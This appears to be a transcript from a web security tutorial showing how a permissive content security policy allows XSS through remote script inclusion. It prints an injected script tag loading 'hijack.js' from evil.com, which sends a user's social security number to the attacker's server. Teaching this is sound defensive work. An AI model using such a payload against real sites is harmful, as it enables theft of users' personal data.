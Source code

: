 Instructor: [00:00] Now that we mitigated XSS via inline script injection, let's put our attacker hat back on. If we inspect the content security policy of the site, we see that it allows scripts from `self` and from `https`.

[00:12] We could take our malicious payload, strip the `<script>` tags and save this as a new file. Let's call it `hijack.js`. This file will now be available for download.

[00:33] If we logged back in to our site and we've put into the message box script source = https://evil.com:666/hijack.js and hit submit, 

```html
<script src="https://evil.com:666/hijack.js"></script>
```

we see that hijack.js gets included, which will create the image and cause our hijacked payload to be submitted.

[01:01] You can verify that the server has received the user's social security number again, thereby completing the XSS attack via a technique known as remote script inclusion.